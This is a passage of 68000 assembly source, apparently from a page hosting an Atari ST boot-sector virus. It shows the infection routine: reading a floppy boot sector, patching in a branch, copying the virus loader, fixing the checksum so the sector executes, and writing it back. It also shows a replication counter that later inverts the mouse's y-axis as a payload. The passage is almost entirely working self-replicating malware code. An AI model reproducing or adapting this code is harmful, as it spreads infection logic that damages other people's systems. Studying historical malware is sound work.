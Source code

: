 ```asm
            TRAP      #XBIOS
            ADDA.L    #$14,sp                           ; fix stack
            TST.W     D0                                ; 0 = success
            BMI       HDV_HPB_VECTOR_END                ; else quit
PATCH_BOOT:
            MOVE.W    #$601C,(A5)                       ; patch read bootloader buffer with BRA
            ADDA.L    #$1E,A5                           ; advance buffer to bootloader start ($1E)
            LEA       LOADER(PC),A4                     ; A4 = start bootsector program
            LEA       PROG_END(PC),A3                   ; A3 = end
COPY_LOADER_2:
            MOVE.W    (A4)+,(A5)+                       ; copy virus prg
            CMPA.L    A3,A4
            BLT.S     COPY_LOADER_2
            MOVEA.L   A6,A5
            MOVE.W    #$FE,D1                           ; D1 = 254 bytes
            MOVE.W    #BOOT_CHK,D0                      ; CHK bootsector value
CALC_BOOT_CHK:
            SUB.W     (A5)+,D0
            DBF       D1,CALC_BOOT_CHK
            MOVE.W    D0,(A5)                           ; add remainder to make bootsector executable

            MOVE.L    #(0 << 16 | 1),-(sp)              ; count: 1 | side: 0
            MOVE.L    #(1 << 16 | 0),-(sp)              ; track: 0 | sector: 1
            MOVE.W    D7,-(sp)                          ; dev, D7 contains A or B (0 or 1)
            CLR.L     -(sp)                             ; rsrvd = 0
            MOVE.L    A6,-(sp)                          ; buf = (BOOTSECT_BUF)
            MOVE.W    #FLOPWR,-(sp) 	                ; FLOPWR
            TRAP      #XBIOS
            ADDA.L    #$14,sp                           ; fix stack
            TST.W     D0                                ; success if 0
            BMI       HDV_HPB_VECTOR_END                ; else quit
            ADDI.L    #1,COUNTER_ADDR.W                 ; add replication counter of 1
            CMPI.L    #5,COUNTER_ADDR.W                 ; if not 5 quit (starting fron 251, meaning 10 iterations
                                                        ; then reset to 0 so 5 to 5)
            BNE       HDV_HPB_VECTOR_END
            CLR.L     COUNTER_ADDR.W                    ; else set mousevec
            MOVE.W    #KBDVBASE,-(sp) 	                ; Kbdvbase() returns a pointer to a system structure containing
                                                        ; a ‘jump’ table to system vector handlers.
            TRAP      #XBIOS
            ADDQ.L    #2,sp                             ; fix stack, midivec, vkbderr, vmiderr , statvec, mousevec, clockvec, joyvec pointers struct in set in D0
            ADD.L     #MOUSEVEC_OFFSET,D0               ; D0+16 => mousevec
            EXG       A0,D0                             ; A0 = mousevec address

            MOVE.L    (A0),-(sp) ;4                     ; add mousev vector to stack
            PEA       INITMOUS_PARAMS(PC)  ;4           ; push INITMOUS_PARAMS content: 0x01 | 0x01 | 0x01 | 0x01
                                                        ; param 0 = 1 : y origin at top, this will inverse
                                                        ; param 1 = 1 : buttons events as mouse packets
                                                        ; param 2 = 1 : x theshold increment of 1
                                                        ; param 3 = 1 : y threshold increment of 1
            MOVE.L    #1,-(sp)   ;4                     ; 0 | 1 : opcode 0 initmouse, mode 1: mouse in relative
            TRAP      #XBIOS                            ; XBIOS initmouse(mode, params, vector)
            ADDA.L    #$C,sp     ;12                    ; fix stack

            EORI.B    #1,INITMOUS_PARAMS_ADDR.W         ; Invert INITMOUS_PARAMS_ADDR[0] = y origin to 1 to let people think this is done :D
```